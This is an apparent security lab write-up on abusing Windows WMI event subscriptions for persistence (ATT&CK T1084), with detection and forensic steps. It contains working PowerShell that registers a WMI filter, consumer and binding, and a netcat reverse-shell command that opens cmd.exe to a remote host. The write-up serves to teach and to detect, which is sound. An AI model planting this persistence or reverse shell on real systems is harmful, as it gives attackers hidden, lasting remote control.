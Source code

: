 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1084: Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc.\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc.\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers to get invoked.

WMI Events can be used by both offenders \(persistence, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:

{% code title="attacker@victim" %}
```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```
{% endcode %}

Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode %}

## Observations

Note the process ancestry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:

![](../../../.gitbook/assets/wmi-shell-system.png)

On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:

{% code title="\_\_EventFilter@victim" %}
```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
{% endcode %}

Note the `Query` property suggests this wmi filter is checking system's uptime every 5 seconds and is checking if the system has been up for at least 1200 seconds:

![](../../../.gitbook/assets/wmi-filter.png)

Event consumer, suggesting that the `shell.cmd` will be executed upon invokation as specified in the property `ExecutablePath`:

{% code title="\_\_EventConsumer@victim" %}
```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```
{% endcode %}

![](../../../.gitbook/assets/wmi-consumer.png)

{% code title="\_\_FilterToConsumerBinding@victim" %}
```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```
{% endcode %}

![](../../../.gitbook/assets/wmi-binding.png)

Microsoft-Windows-WMI-Activity/Operational contains logs for event `5861` that capture event filter and event consumer creations on the victim system:

![](../../../.gitbook/assets/wmi-filter-consumer-creation.png)

## Inspection

If you suspect a host to be compromised and you want to inspect any `FilterToConsumer` bindings, you can do it with PSRemoting and the commands shown above or you can try getting the file`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA`

Then you can use [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI_Forensics) by David Pany to parse the `OBJECTS.DATA` file and get a list of bindings like:

```bash
./PyWMIPersistenceFinder.py OBJECTS.DATA
```

![](../../../.gitbook/assets/wmi-parser.png)

### Strings + Grep

If you are limited to only the native \*nix/cygwin utils you have to hand, you can get a pretty good insight into the bindings with the following command:

```csharp
strings OBJECTS.DATA | grep -i filtertoconsumerbinding -A 3 --color
```

Below are the results:

![](../../../.gitbook/assets/wmi-strings-grep.png)

From the above graphic, we can easily see that one binding connects two evils - the evil consumer and the evil filter.

Now that you know that you are dealing with `evil` filter and `evil` consumer, use another rudimentary piped command to look into the evil further:

```csharp
strings OBJECTS.DATA | grep -i 'evil' -B3 -A2 --color
```

Note how we can get a pretty decent glimpse into the malicious WMI persistence even with simple tools to hand - note the `C:\shell.cmd`and `SELECT * FROM` ... - if you recall, this is what we put in our consumers and filters at the very [beginning](./#execution) of the lab:

![](../../../.gitbook/assets/wmi-strings-grep2.png)

## References

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below: 

{% embed url="https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/" %}

{% embed url="https://www.youtube.com/watch?v=0SjMgnGwpq8" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1084" %}

{% embed url="https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html" %}

{% embed url="https://pentestarmoury.com/2016/07/13/151/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa940177\(v=winembedded.5\)" %}

